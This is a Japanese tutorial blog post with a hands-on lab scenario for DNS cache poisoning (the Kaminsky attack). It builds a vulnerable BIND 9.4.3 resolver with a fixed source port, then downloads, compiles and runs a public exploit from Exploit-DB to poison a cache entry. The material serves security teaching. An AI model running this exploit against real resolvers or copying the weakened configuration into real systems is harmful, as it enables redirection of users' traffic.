 ```yaml
---
layout: post
title:  "DNSキャッシュポイズニング"
date:   2018-08-21
permalink: /security/:title
categories: DNS
tags: pwn, dns
excerpt: DNSキャッシュポイズニングのハンズオンシナリオです
mathjax: false
---
```


* content
{:toc}

## 攻撃の概要

### キャッシュの仕組み
DNSキャッシュサーバ自身はゾーンファイルを保持しない。
問い合わせに応じて権威DNSサーバに問い合わせた結果をそのまま返す。
この時取得したレコードはキャッシュに保存される。
キャッシュが破棄される前に同じ問い合わせがあった場合は権威DNSサーバに問い合わせずに結果を返す。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns002.png)

### 階層構造の仕組み
ある権威DNSサーバの管理下に無いドメインの問い合わせは別の権威DNSサーバにリダイレクトされる。
権威DNSサーバはadditionalレコードに別の権威DNSサーバのホスト名とIPアドレスを指定してリゾルバに返す。
リゾルバはこれを参照して別の権威DNSサーバに問い合わせる。
これを繰り返すことでDNSの階層構造が実現される。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns003.png)

### 攻撃の仕組み

攻撃対象ドメインに存在しないホストの名前解決をリクエストしてから、権威DNSサーバの応答よりも早く偽の応答を送り付ける。
偽の応答のadditionalレコードには権威DNSサーバとして攻撃対象ホストと偽のIPアドレスを指定する。
脆弱性のあるDNSキャッシュサーバはadditionalレコードの情報をキャッシュするので、これ以降のwww.sample.localの名前解決には100.100.100.100が返される。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns004.png)

攻撃の詳細はJPRSの[Kaminsky Attackの全て][Kaminsky Attackの全て]を参照

## サーバ構築

3台のCentOS7でPoC環境を構築する。

![]({{site.baseurl}}/images/dns-cache-poizoning/env.png)

個々のサーバを構築する前によく使うツールを全てのホストに入れておくこと。

```bash
# yum install -y vim wget gcc bind-utils
```

### 権威DNSサーバ
named.confの記述
```bash
# vim /etc/named.conf

options {
  directory "/var/named";
  pid-file  "/run/named/named.pid";
  listen-on port 53 { any; };
  allow-query       { any; };
};
zone "sample.local" IN {
  type master;
  file "sample.local.zone";
};
```

zoneファイルの記述
```bash
# vim /var/named/sample.local.zone

@     IN    SOA    sample.local. root.sample.local. (
                   2018062901
                   60
                   60
                   60
                   60
                   )
;
      IN    NS     ns.sample.local.
;
      IN    MX     0 mail.sample.local
;
ns    IN    A      172.16.0.3
www   IN    A      172.16.0.100
mail  IN    A      172.16.0.100
```

攻撃を成功させやすくするためにNICに200msの遅延を設定
```bash
# tc qdisc add dev enp0s8 root netem delay 200ms
```

サービス起動
```bash
# systemctl start named
```

### DNSキャッシュサーバ
デフォルトのnamedを削除して脆弱性のあるバージョン9.4.3をソースからインストールする
```bash
# yum -y remove bind
# wget https://ftp.isc.org/isc/bind9/9.4.3/bind-9.4.3.tar.gz
# tar zxvf bind-9.4.3.tar.gz
# cd bind-9.4.3
# ./configure
# make
# make install
```
起動スクリプトの作成
```bash
# vim /usr/lib/systemd/system/named.service

[Unit]
Description=Berkeley Internet Name Domain (DNS)

[Service]
Type=forking
PIDFile=/run/named/named.pid

ExecStartPre=/bin/bash -c 'if [ ! "$DISABLE_ZONE_CHECKING" == "yes" ]; then /usr/local/sbin/named-checkconf -z /etc/named.conf; else echo "Checking of zone files is disabled"; fi'

ExecStart=/usr/local/sbin/named -u named $OPTIONS

ExecReload=/bin/sh -c '/usr/local/sbin/rndc reload > /dev/null 2>&1 || /bin/kill -HUP $MAINPID'

ExecStop=/bin/sh -c '/usr/local/sbin/rndc stop > /dev/null 2>&1 || /bin/kill -TERM $MAINPID'

PrivateTmp=true

[Install]
WantedBy=multi-user.target
```
named.confの作成

権威DNSサーバにソースポート10000で問い合わせるようにする
```bash
# vim /etc/named.conf

options {
  directory "/var/named";
  pid-file "/run/named/named.pid";
  listen-on port 53 { any; };
  allow-query { any; };
  forwarders { 172.16.0.3; };
  query-source address * port 10000;
  recursion yes;
};
```

pidファイルの所有権を変更する
```bash
# useradd named
# chown named:named /run/named
```

サービス起動
```bash
# systemctl daemon-reload
# systemctl start named
```
### 攻撃サーバ
CVE-2008-1447/CVE-2008-4194のエクスプロイトコードをコンパイルする
```bash
# wget https://www.exploit-db.com/download/6130.c
# yum install -y libdnet-devel
# ln -s /usr/include/dnet.h /usr/include/dumbnet.h
# gcc -o kaminsky-attack 6130.c `dnet-config --libs` -lm
```

## 攻撃
sample.localのDNSキャッシュサーバを攻撃してwwwのキャッシュを1.2.3.4に書き換える
```bash
# ./kaminsky-attack 172.16.0.1 172.16.0.2 172.16.0.3 10000 www sample.local. 1.2.3.4 8192 16
```
キャッシュが1.2.3.4に書き換えられた事を確認する
```bash
# dig @172.16.0.2 www.sample.local
```

裏でどんなパケットが飛んでいて、サーバのログには何が残っているのか確認しておくと良い。

## 参考情報
- [JPRS](https://jprs.jp/glossary/index.php?ID=0228)
- [Kaminsky Attackの全て][Kaminsky Attackの全て]
- [Exploit-DB](https://www.exploit-db.com/exploits/6130/)

[Kaminsky Attackの全て]: https://www.nic.ad.jp/ja/materials/iw/2008/proceedings/H3/IW2008-H3-07.pdf
